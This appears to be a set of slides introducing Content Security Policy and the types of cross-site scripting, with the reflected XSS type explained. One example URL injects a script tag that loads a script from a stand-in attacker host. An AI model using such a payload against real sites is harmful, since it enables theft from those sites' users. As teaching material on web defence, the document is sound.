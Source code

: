 
# What is CSP?

From the W3C* definition :

>This [document](https://www.w3.org/TR/CSP3/#intro) defines Content Security Policy (CSP), a tool which developers can use to lock down their applications in various ways, mitigating the risk of content injection vulnerabilities such as cross-site scripting, and reducing the privilege with which their applications execute.

`*W3C = World Wide Web Consortium`

---

# Types of XSS attacks

There are several types of XSS:

|XSS      |-     |
|---------|------|
|Reflected|Type 1|
|Stored   |Type 2|
|DOM Based|Type 0|

`DOM = Document Object Model - W3C standard`

---

# Reflected XSS attack - 1 / 2

Reflected XSS occurs when user input is immediately returned by a web application in an error message, search result, or any other response that includes some or all of the input provided by the user as part of the request, without that data being made safe to render in the browser, and without permanently storing the user provided data.


Example:
```html
https://insecure-web.com/comment?message=<script src=https//evil.corp/badscript.js></script>
```

---
